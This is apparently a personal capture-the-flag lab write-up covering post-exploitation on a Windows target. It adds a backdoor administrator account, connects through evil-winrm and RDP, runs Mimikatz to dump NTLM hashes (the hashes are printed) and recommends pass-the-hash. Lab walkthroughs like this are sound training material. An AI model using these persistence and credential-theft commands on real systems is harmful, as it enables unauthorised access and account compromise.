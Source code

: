 
As we got the reverse shell with the highest permissions possible on a local machine which means we don't have need to escalate on this target but but but .....................

From the enumeration we did on this target we know that ports 3389 and 5985 are open. This means that (using an account with the correct privileges) we should be able to obtain either a GUI through RDP (port 3389) or a stable CLI shell using WinRM (port 5985).


So we have add a account with a username and password
```
net user sardarji-007 Password123 /add
```
![[Pasted image 20231230121342.png]]

```
net localgroup Administrators sardarji-007 /add
net localgroup "Remote Management Users" sardarji-007 /add
```
![[Pasted image 20231230121856.png]]

After this we have to use evil-winrm but i have already installed as i have used it earlier for some box
```
sudo gem install evil-winrm
```

```
evil-winrm -u sardarji-007 -p Password123 -i 10.200.101.150
```
![[Pasted image 20231230122319.png]]

```
whoami
whoami /groups
```
![[Pasted image 20231230122419.png]]

Now will try to login using RDP for clients
```
sudo apt install freerdp2-x11
```

RDP
```
xfreerdp /v:10.200.101.150 /u:'sardarji-007' /p:'Password123'
```

```
xfreerdp /v:10.200.101.150 /u:'sardarji-007' /p:'Password123' /dynamic-resolution
```
![[Pasted image 20231230124859.png]]

```
We have window's resources on our disposal 
```
![[Pasted image 20231230125736.png]]

```
xfreerdp /v:10.200.101.150 /u:'sardarji-007' /p:'Password123' /dynamic-resolution /drive:.,share
```
![[Pasted image 20231230130100.png]]

So we have successfully shared the folder and can use it otherwise we have to set-up a server  and have to work accordingly.

I was not able to use CMD so suggest to go with PowerShell
```
cd \\tsclient\share\mimikatz 
```
![[Pasted image 20231230131025.png]]

I don't know even this also not worked so i simply copied the Mimikatz folder into the desktop and good to go from here.
```
cd \\tsclient\share\mimikatz\x64
```
![[Pasted image 20231230132355.png]]

```
privilege::debug
```

```
token::elevate
```

```
User : Administrator
  Hash NTLM: 37db630168e5f82aafa8461e05c6bbd1

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 68b1608793104cca229de9f1dfb6fbae
```

![[Pasted image 20231230152716.png]]

```
Admin
Thmoas
37db630168e5f82aafa8461e05c6bbd1
02d90eda8f6b6b06c32d5f207831101f
```

![[Pasted image 20231230153212.png]]

  
In the real world this would be enough to obtain stable access; however, in our current environment, the new account will be deleted if the network is reset.

For this reason you are encouraged to to use the evil-winrm built-in pass-the-hash technique using the Administrator hash we looted.

